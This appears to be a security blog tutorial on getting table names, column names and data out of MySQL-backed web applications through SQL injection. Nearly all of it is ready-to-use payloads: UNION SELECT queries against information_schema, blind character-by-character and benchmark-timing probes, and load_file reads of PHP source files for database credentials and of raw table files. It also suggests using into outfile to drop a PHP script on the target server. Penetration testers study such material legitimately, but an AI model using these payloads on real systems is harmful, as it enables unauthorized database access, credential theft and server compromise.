

1. The information_schema table
1.a. Read information_schema table normally
Sometimes on MySQL >=5.0 you can access the information_schema table. So you may want to check which MySQL version is running:
0′ UNION SELECT version(),null /*
or:
0′ UNION SELECT @@version,null /*
Once you know which version is running, proceed with these steps (MySQL >= 5.0) or jump to the next point.
You can either get the names step by step or at once.
First, get the tablenames:
0′ UNION SELECT table_name,null FROM information_schema.tables WHERE version = ‘9
Note that version=9 has nothing to do with the MySQL version. It’s just an unique identifier for user generated tables, so leave as it is to ignore MySQL system table names.
update: Testing another MySQL version (5.0.51a) I noticed that the version is “10” for user generated tables. so dont worry if you dont get any results. instead of the unique identifier you can also use “LIMIT offset,amount”.
Second, get the columnnames:
0′ UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = ‘tablename
Or with one injection:
0′ UNION SELECT column_name,table_name FROM information_schema.columns /*
Unfortunetly there is no unique identifier, so you have to scroll through the whole information_schema table if you use this. If the webapplication is designed to output only the first line of the resultset you can use LIMIT x,1 (starting with x=0) to iterate your result line by line.
0′ UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = ‘tablename’ LIMIT 3,1
Also, you can use group_concat() to concatenate all table/column names to one string and therefore also return only one line:
0′ UNION SELECT group_concat(column_name),null FROM information_schema.columns WHERE table_name = ‘tablename
Once you know all table names and column names you can union select all the data you need.
For more details about the information_schema table see the MySQL Documentation Library. There you’ll find other interesting columns you can add instead of null, for example data_type.
1.b. Read information_schema table blindly
Sometimes you can’t see the output of your request, however there are some techniques to get the info blindly, called Blind SQL Injection. I’ll assume you know the basics. However, make sure you really need to use blind injection. Often you just have to make sure the actual result returns null and the output of your injection gets processed by the mysql_functions instead. Use something like AND 1=0 to make sure the actual output is null and then append your union select to get your data, for example:
1′ AND 1=0 UNION SELECT @@version,null /*
If you really need blind SQL injection we’ll go through the same steps as above, so first we try to get the version:
1’AND MID(version(),1,1) like ‘4
The request will be successfull and the same page will be displayed like as we did no injection if the version starts with “4”. If not, I’ll guess the server is running MySQL 5. Check it out:
1’AND MID(version(),1,1) like ‘5
Always remember to put a value before the actual injection which would give “normal” output. If the output does not differ, no matter what you’ll inject try some benchmark tests:
1′ UNION SELECT (if(mid(version(),1,1) like 4, benchmark(100000,sha1(‘test’)), ‘false’)),null /*
But be careful with the benchmark values, you dont want to crash your browser ;-). I’d suggest you to try some values first to get a acceptable response time.
Once we know the version number you can proceed with these steps (MySQL >= 5.0) or jump to the next point.
Since we cant read out the table name we have to brute it. Yes, that can be annoying, but who said it would be easy?
We’ll use the same injection as in 1.), but now with blind injection technique:
1′ AND MID((SELECT table_name FROM information_schema.tables WHERE version = 9 LIMIT 1),1,1) > ‘m
Again, this will check if the first letter of our first table is alphabetically located behind “m”. As stated above, version=9 has nothing to do with the MySQL version number and is used here to fetch only user generated tables.
Once you got the right letter, move on to the next:
1′ AND MID((SELECT table_name FROM information_schema.tables WHERE version = 9 LIMIT 1),2,1) > ‘m
And so on.
If you got the tablename you can brute its columns. This works as the same principle:
1′ AND MID((SELECT column_name FROM information_schema.columns WHERE table_name = ‘tablename’ LIMIT 1),1,1) > ‘m
1′ AND MID((SELECT column_name FROM information_schema.columns WHERE table_name = ‘tablename’ LIMIT 1),2,1) > ‘m
1′ AND MID((SELECT column_name FROM information_schema.columns WHERE table_name = ‘tablename’ LIMIT 1),3,1) > ‘m
And so on.
To check the next name, just skip the first bruted tablename with LIMIT (see comments for more details about the index):
1′ AND MID((SELECT table_name FROM information_schema.tables WHERE version = 9 LIMIT 1,1),1,1) > ‘m
Or columnname:
1′ AND MID((SELECT column_name FROM information_schema.columns WHERE table_name = ‘tablename’ LIMIT 1,1),1,1) > ‘m
Sometimes it also makes sense to check the length of the name first, so maybe you can guess it easier the more letters you reveal.
Check for the tablename:
1′ AND MID((SELECT table_name FROM information_schema.tables WHERE version = 9 LIMIT 1),6,1)=’
Or for the column name:
1′ AND MID((SELECT column_name FROM information_schema.columns WHERE table_name = ‘tablename’ LIMIT 1),6,1)=’
Both injections check if the sixth letter is not empty. If it is, and the fifth letter exists, you know the name is 5 letters long.
Since we know that the information_schema table has 33 entries by default we can also check out how many user generated tables exist. That means that every entry more than 33 is a table created by a user.
If the following succeeds, it means that there is one user generated table:
1′ AND 34=(SELECT COUNT(*) FROM information_schema.tables)/*
There are two tables if the following is true:
1′ AND 35=(SELECT COUNT(*) FROM information_schema.tables)/*
And so on.
2. You don’t have access to information_schema table
If you don’t have access to the information_schema table (default) or hit a MySQL version < 5.0 it’s quite difficult on MySQL. There is only one error message I could find that reveals a name:
1’%’0
Query failed: Column ‘id’ cannot be null
But that doesnt give you info on other column or table names and only works if you can access error messages. However, it could make guessing the other names easier.
If you don’t want to use a bruteforce tool we will have to use load_file. But that will require that you can see the output of course.
“To use this function, the file must be located on the server host, you must specify the full pathname to the file, and you must have the FILE privilege. The file must be readable by all and its size less than max_allowed_packet bytes.”
You can read out max_allowed_packet on MySQL 5
0′ UNION SELECT @@max_allowed_packet,null /*
Mostly you’ll find the standard value 1047552 (Byte).
Note that load_file always starts to look in the datadir. You can read out the datadir with:
0′ UNION SELECT @@datadir,null /*
So if your datadir is /var/lib/mysql for example, load_file(‘file.txt’) will look for /var/lib/mysql/file.txt.
2.a. Read the script file
Now, the first thing I would try is to load the actual script file. This not only gives you the exact query with all table and column names, but also the database connection credentials. A file read could look like this:
0′ UNION SELECT load_file(‘../../../../Apache/htdocs/path/file.php’),null /* (Windows)
0′ UNION SELECT load_file(‘../../../var/www/path/file.php’),null /* (Linux)
The amount of directories you have to jump back with ../ is the amount of directories the datadir path has. After that follows the webserver path.
All about file privileges and webserver path can be found in my article about into outfile.
Once you got the script you can also use into outfile combined with OR 1=1 to write the whole output to a file or to set up a little PHP script on the target webserver which reads out the whole database (or the information you want) for you.
2.b) Read the database file
On MySQL 4 and 5 you can also use load_file to get the table content.
The database files are usually stored in
@@datadir/databasename/
Take a look at step 2. how to get the datadir. An injection we need to read the database content looks like this:
0′ UNION SELECT load_file(‘databasename/tablename.MYD’),null /*
As you can see we need the databasename and tablename first. The databasename is easy:
0′ UNION SELECT database(),null /*
The table name is the hard part. Actually you can only guess or bruteforce it with a good wordlist and something like:
0′ UNION SELECT ‘success’,null FROM testname /*
This will throw an error if testname does not exists, or display “success” if tablename testname exists.
If you try to guess the name, have a look at all errors, vars and html sources you can get to get an idea of how they could have named the table / columns. Often it is not as difficult as it seems first.
You can find a small wordlist for common tablenames here (by Raz0r) and here.
Also note that the file loaded with load_file() must be smaller than max_allowed_packet so this wont work on huge database files, because the standard value is ~1 MB which will suffice for only about 100.000 entries (if my calculation is right ;-))
(2.c. Compromising the server)
There are no other ways to get the data as far as I know, except of compromising the server via MySQL into outfile or with other techniques which are beyond the scope of this article (e.g. LFI).
If you do have any other clever ways I don’t know of or feel I’m in error on some facts, PLEASE contact me.